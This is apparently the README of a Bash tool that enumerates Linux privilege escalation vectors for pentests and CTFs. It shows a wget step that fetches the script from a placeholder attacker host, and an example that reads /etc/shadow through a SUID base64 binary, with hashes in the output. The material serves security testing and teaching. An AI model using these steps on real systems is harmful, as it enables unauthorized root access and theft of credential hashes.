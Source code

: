 # Linux PrivEsc Checker

A simple Bash script to automate the search for common Linux privilege escalation vectors.

This script is designed to be lightweight and easy to upload to a target machine during a penetration test or CTF to quickly enumerate potential weaknesses.

## 🚀 Demo

Here is the script in action, identifying a SUID binary (`base64`) and other potential vectors.

`![1_bN3zjoU7L6Ps54N9oecrqw](https://github.com/user-attachments/assets/b897ad23-a8a5-4443-acb0-0f64ff21a68f)`

## ✨ Features

This script automatically hunts for:

  * **🕵️‍♂️ SUID Binaries:** Scans for suspicious SUID binaries (like `base64`, `nmap`, `find`, etc.) that can be used to escalate privileges.
  * **⚙️ Linux Capabilities:** Searches for binaries with dangerous capabilities (e.g., `cap_sys_admin`, `cap_setuid`).
  * **📁 NFS Exports:** Checks `/etc/exports` for insecure `no_root_squash` configurations.
  * **⏰ Writable Cron Jobs:** Looks for `root` cron jobs that execute scripts or binaries in writable locations.
  * **🛡️ Vulnerable Versions:** Performs a basic check against known vulnerable versions of `sudo` and the Kernel.

## 💻 Usage

### 1\. Clone the Repository

```bash
git clone https://github.com/MS-0x404/Linux-PrivEsc-Checker.git
cd Linux-PrivEsc-Checker
chmod +x privesc.sh
./privesc.sh
```

### 2\. On Target Machine

This is the recommended method for use during a pentest, as seen in the demo video.

1.  Navigate to a writable directory (e.g., `/tmp`):

    ```bash
    cd /tmp
    ```

2.  Download the script from a web server you control (e.g., Python's `http.server`):

    ```bash
    wget http://YOUR-ATTACKER-IP:8000/privesc.sh
    ```

3.  Make it executable:

    ```bash
    chmod +x privesc.sh
    ```

4.  Run it\!

    ```bash
    ./privesc.sh
    ```

## 💡 Example: SUID Exploit

In the demo video, the script identifies `/usr/bin/base64` as having the SUID bit set.

Because the binary runs as `root`, it can be used to read sensitive files, such as `/etc/shadow`, which is normally only readable by root.

```bash
$ ./privesc.sh

    [...]
    Ricerca Privilege Escalation...

[+] Possibile PrivEsc tramite SUID:
  └─ /usr/bin/base64
[+] Possibile PrivEsc tramite Capabilities:
  └─ /usr/bin/python3.13 cap_setuid=eip
[-] Nessuna PrivEsc tramite NFS
[...]
```

**Exploitation:**

```bash
$ base64 /etc/shadow | base64 -d
ubuntu:$y$j9T$vTJesvSYgTtcVv//OGDCPytz0b$HVjAkS46CYIilgc..:19999:7:::
daemon:*:19193:0:99999:7:::
...
test:$y$j9T$vTJesvSYgTtcVv//OGDCPytz0b$HVjAkS46CYIilgc..:19999:7:::
```

-----

## ⚠️ Disclaimer

This tool is intended for **educational and authorized testing purposes ONLY**. Do not use this script on any system you do not have explicit permission to test. The author is not responsible for any misuse or damage caused by this script.
